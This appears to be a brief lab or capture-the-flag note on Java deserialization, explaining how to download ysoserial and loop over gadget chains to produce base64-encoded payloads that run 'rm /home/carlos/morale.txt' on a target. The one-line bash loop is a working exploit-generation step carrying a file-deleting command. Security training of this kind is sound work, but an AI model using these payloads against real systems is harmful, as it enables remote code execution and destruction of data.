 
first you will download ysoserial
the make dir and write bash script as :
while read payloadname;do java -jar ../ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64 | tr -d '\n' >$payloadname ;done < ../yy
then delete size 0 
